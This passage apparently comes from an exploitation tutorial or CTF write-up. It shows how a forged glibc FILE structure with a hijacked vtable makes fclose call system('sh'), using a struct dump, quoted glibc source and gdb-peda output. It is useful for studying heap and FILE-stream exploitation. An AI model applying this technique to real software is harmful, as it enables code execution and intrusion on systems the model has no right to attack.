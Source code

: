 ```
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0x804a0f0 <name+48>, 
    _fileno = 0x3, 
    ...
  }, 
  vtable = 0x804a07c
}
```

The `_fileno` member must remain intact because if it's not an existing file descriptor, an error will be triggered. Let's call
`fclose` on the `/dev/null` file stream and see what happens.
 
 `fclose` will call `_IO_new_fclose` internally and finally `_IO_file_close_it`.
 
 ```c
 int
_IO_new_fclose (fp)
     _IO_FILE *fp;
{
  int status;

  CHECK_FILE(fp, EOF);

  ...

  /* First unlink the stream.  */
  if (fp->_IO_file_flags & _IO_IS_FILEBUF)
    _IO_un_link ((struct _IO_FILE_plus *) fp);

  _IO_acquire_lock (fp);
  if (fp->_IO_file_flags & _IO_IS_FILEBUF)
    status = _IO_file_close_it (fp); <-- will try to call whatever is at the 18th index in the vtable
```

```
0xf7e7a917 <_IO_new_file_close_it+263>:	mov    eax,DWORD PTR [ebx+eax*1+0x94]
0xf7e7a91e <_IO_new_file_close_it+270>:	push   ebx
0xf7e7a91f <_IO_new_file_close_it+271>:	call   DWORD PTR [eax+0x44]

gdb-peda$ p $eax
$24 = 0x804a07c
gdb-peda$ p $ebx
$25 = 0x804b300
gdb-peda$ x/wx $eax+ 0x44
0x804a0c0 <name>:	0xf7e4bda0
gdb-peda$ x 0xf7e4bda0
0xf7e4bda0 <__libc_system>:	0x8b0cec83
gdb-peda$ x/s 0x804b300
0x804b300:	"sh"
```
